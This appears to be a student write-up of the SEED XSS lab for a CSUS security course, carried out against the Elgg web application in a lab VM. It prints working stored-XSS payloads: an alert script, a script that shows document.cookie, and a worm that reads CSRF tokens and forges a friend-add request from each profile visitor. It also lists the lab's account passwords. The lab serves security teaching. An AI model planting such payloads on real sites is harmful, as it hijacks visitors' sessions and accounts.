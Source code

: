# CSUS CSC154: XSS Lab  

## Goal  
To fully demonstrate what attackers can do by exploiting XSS vulnerabilities.


## Lab Environment  
In this lab, we need three things, which are already installed in the provided `SEEDUbuntu12.04` VM image: (1) the Firefox web browser, (2) the Apache web server, and (3) the Elgg web application. For the browser, we need to use the LiveHTTPHeaders extension for Firefox to inspect the HTTP requests and responses. The pre-built Ubuntu VM image provided to you has already installed the Firefox web browser with the required extensions.  

The user accounts for Elgg are found below.  

| User          | UserName      | Password     |
| ------------- |:-------------:| ------------:|
| Admin         | admin         | seedelgg     |
| Alice         | alice         | seedalice    |
| Boby          | boby          | seedboby     |
| Charlie       | charlie       | seedcharlie  |
| Samy          | samy          | seedsamy     |



## Lab Tasks  

### Posting a Malicious Message to Display an Alert Window  
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another
user views our profile, the JavaScript program will be executed and an alert window will be displayed. The
following JavaScript program will display an alert window:  

```javascript
<script>alert('xss');</script>
```

To accomplish this, we simply login as Samy, and navigate to edit our profile. As can be seen in Figure 1 below, we've placed our JavaScript payload in the "Brief Descriptoin" portion of Samy's profile.  
![1_1_samy](./writeup/images/1_1_samy.png)  
**Figure 1:** JavaScript alert window payload to demonstrate XSS.  

![1_2_samy](./writeup/images/1_2_samy.png)  
**Figure 2:** JavaScript alert window fires when Samy's profile is visited.  


### Posting a Malicious Message to Display Cookies
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another user views our profile, the user's cookies will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task, more specifically `document.cookie` as such: 
```javascript
<script>alert(document.cookie);</script>
```

To accomplish this, we repeat the previous task, but replace the `'xss'` string, with `document.cookie`.  
![2_1_samy](./writeup/images/2_1_samy.png)  
**Figure 3:** JavaScript alert window payload to display user's cookie for the site.  

![2_2_samy](./writeup/images/2_2_samy.png)  
**Figure 4:** JavaScript alert window displays our Elgg cookie when visiting Samy's profile.




### Writing an XSS Worm  
In this and next task, we will perform an attack similar to what Samy did to MySpace in 2005 (i.e. the Samy Worm). In this task, we need to write a malicious JavaScript program that forges HTTP requests directly from the victim's browser, without the intervention of the attacker. The objective of the attack is to modify the victim's profile and add Samy as a friend to the victim. 

We can view the requests made to the server when adding a friend, by using the Live HTTP Headers plugin. In Figure 5 below, we're viewing the request made when Boby adds Alice as a friend.  
![add_friend_http_request](./writeup/images/add_friend_http_request.png)  
**Figure 5:** HTTP Headers for friend request, Boby to Alice.  


We can also see by hovering over the link to to add Samy as a friend, the url is `http://www.xsslabelgg.com/action/friends/add?friend=42&__elgg_ts=1575329197&__elgg_token=ac28852afbfcd82a9fd72aa9923110f3`.

Using this information we can construct an AJAX request to add Samy as a friend as soon as you visit his profile. To create our worm this we've developed the following JavaScript code, which we embed in the About Me section of Samy's profile.

```javascript
<script>

var Ajax=null;
var ts = elgg.security.token.__elgg_ts;
var token = elgg.security.token.__elgg_token;

// 42 is Samy's GUID
var content = "friend=42&__elgg_ts="+ts+"&__elgg_token="+token;

Ajax=new XMLHttpRequest();
Ajax.open("GET","http://www.xsslabelgg.com/action/friends/add?"+content,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send(null);

</script>
```

![developing_worm](./writeup/images/developing_worm.png)  
**Figure 6:** Developing worm payload in FireBug.  

![samy_worm_embed](./writeup/images/samy_worm_embed.png)  
**Figure 7:** JavaScript payload to add Samy as a friend when is profile is visited (Worm). 

Now after we visit Samy's profile as Alice, we see that Alice has added him as a friend.  

![alice_samy](./writeup/images/alice_samy.png)  
**Figure 8:** Alice added Samy as friend by visiting his page with XSS payload.  